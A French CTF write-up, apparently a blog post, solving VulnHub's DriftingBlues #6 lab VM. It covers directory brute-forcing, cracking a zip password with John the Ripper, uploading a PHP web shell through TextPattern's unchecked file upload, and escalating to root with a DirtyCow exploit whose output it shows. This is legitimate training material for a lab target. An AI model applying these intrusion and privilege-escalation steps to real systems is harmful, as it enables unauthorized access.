 ```yaml
---
title: Solution du CTF DriftingBlues #6 de VulnHub
tags: [CTF, VulnHub]
---
```


Quick
-----

Petite présentation tout de même avant d’enchaîner en vitesse grand V. [Ce CTF](https://www.vulnhub.com/entry/driftingblues-6,672/) créé par [tasiyanci](https://twitter.com/tasiyanci) est un boot2root récupérable par VulnHub et de difficulté facile.  

La VM fait tourner un site qui nous accueille avec le message suivant :  

```plain
Drifting Blues Tech
please don't hack
enough is enough!!!
```

Amusant vu qu'on est sur le 6ème opus de cette saga de CTF. Oui quelque part on s'acharne :D   

Je lance Wapiti dessus avec tous les modules dispos. Le buster intégré me remonte pas mal de choses intéressantes :  

```plain
[*] Lancement du module buster 
Found webpage http://192.168.56.11/index.html 
Found webpage http://192.168.56.11/robots.txt 
Found webpage http://192.168.56.11/db 
Found webpage http://192.168.56.11/index 
Found webpage http://192.168.56.11/robots 
Found webpage http://192.168.56.11/textpattern/ 
Found webpage http://192.168.56.11/textpattern/LICENSE.txt 
Found webpage http://192.168.56.11/textpattern/index.php 
Found webpage http://192.168.56.11/textpattern/css.php 
Found webpage http://192.168.56.11/textpattern/README.txt 
Found webpage http://192.168.56.11/textpattern/images/ 
Found webpage http://192.168.56.11/textpattern/themes/ 
Found webpage http://192.168.56.11/textpattern/files/ 
Found webpage http://192.168.56.11/textpattern/README 
Found webpage http://192.168.56.11/textpattern/textpattern/ 
Found webpage http://192.168.56.11/textpattern/rpc/ 
Found webpage http://192.168.56.11/textpattern/LICENSE
```

TextPattern est un CMS et le README nous indique qu'il est ici en version 4.8.3. Ça tombe bien il y a sur exploit-db des exploits [comme celui ci](https://www.exploit-db.com/exploits/48943) pour cette version du logiciel.  

L'exploitation nécessite toutefois un compte que l'on a pas. Heureusement on trouve une piste dans le fichier *robots.txt* :  

```plain
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

Je m'exécute :  

```plain
feroxbuster -u http://192.168.56.11/ -w /fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -n -x php,txt,zip,html
```

Il en ressort une archive spammer.zip protégée par mot de passe. Je génère le hash correspondant avec *zip2john* et *John the Ripper* casse ce dernier instantanément :  

```plain
myspace4         (spammer.zip/creds.txt)
```

Le fichier *creds.txt* obtenu contient des identifiants : *mayer:lionheart*.  

Sans surprise ils permettent de se connecter sur l'appli web. Maintenant parlons de l'exploit pour TextPattern. En le lisant on comprend qu'il ne fait rien de plus qu'utiliser la fonctionnalité d'upload qui ne vérifie pas le type de fichier.  

Pas besoin d'exploit donc, on va sur *Content* puis *Files*. Ensuite on sélectionne le fichier, on upload et voilà un shell bêtement à l'adresse */textpattern/files/shell.php*.  

Une fois un shell plus civilisé obtenu (merci *ReverseSSH*) je fouille sur le système et constate surtout qu'il n'y a pas d'utilisateurs classiques (disposant d'un dossier dans */home*). De plus LinPEAS se montre assez silencieux si ce n'est pour les exploits touchant la distribution.  

C'est de toute évidence le cheminement attendu car si un utilisateur avait été présent nous aurions pu passer outre en utilisant directement un exploit pour le kernel.  

Plus qu'à prendre un des exploits pour [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) :  

```plain
www-data@driftingblues:/tmp$ ./dirty g0tr00t 
/etc/passwd successfully backed up to /tmp/passwd.bak 
Please enter the new password: g0tr00t 
Complete line: 
firefart:fihv2UhZG2gL6:0:0:pwned:/root:/bin/bash 

mmap: 7f91e30e8000 
madvise 0 

ptrace 0 
Done! Check /etc/passwd to see if the new user was created. 
You can log in with the username 'firefart' and the password 'g0tr00t'. 

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd 
Done! Check /etc/passwd to see if the new user was created. 
You can log in with the username 'firefart' and the password 'g0tr00t'. 

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
firefart@driftingblues:/tmp# cd /root/ 
firefart@driftingblues:~# ls 
flag.txt 
firefart@driftingblues:~# cat flag.txt  

░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!

```


*Published January 20 2022 at 22:38*
